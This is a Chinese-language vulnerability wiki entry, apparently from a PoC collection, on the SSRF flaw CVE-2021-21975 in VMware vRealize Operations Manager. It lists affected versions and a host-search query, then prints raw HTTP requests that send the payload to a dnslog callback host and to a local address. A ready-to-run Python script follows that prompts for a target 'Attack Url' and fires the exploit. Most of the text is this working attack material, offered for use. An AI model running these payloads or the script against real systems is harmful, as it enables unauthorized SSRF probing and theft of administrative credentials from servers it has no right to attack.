



VMware vRealize Operations Manager SSRF漏洞 CVE-2021-21975¶
漏洞描述¶
vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，以窃取管理凭据。
漏洞影响¶
VMware:vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0
VMware:cloud_foundation: 4.x 3.x
VMware:vRealize_suite_lifecycle_manager: 8.x
网络测绘¶
title="vRealize Operations Manager"
漏洞复现¶
访问登录页面如下
发送请求包如下
POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24
["eheeyd.dnslog.cn"]

POST /casa/nodes/thumbprints HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24
["127.0.0.1:443/ui"]

漏洞POC¶
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: VMware vRealize Operations Manager \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+ \033[36mDnslog >>> xxx.dnslog.com \033[0m')
print('+------------------------------------------')
def POC_1(target_url, v):
vuln_url = target_url + "/casa/nodes/thumbprints"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/json;charset=UTF-8"
}
data = '["{}"]'.format(Dnslog)
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=10)
if response.status_code == 200 :
print("\033[32m[o] 目标 {} 可能存在SSRF漏洞,请检查 Dnslog 响应 \033[0m".format(target_url, vuln_url))
else:
print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
except Exception as e:
print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
POC_1(target_url, Dnslog)
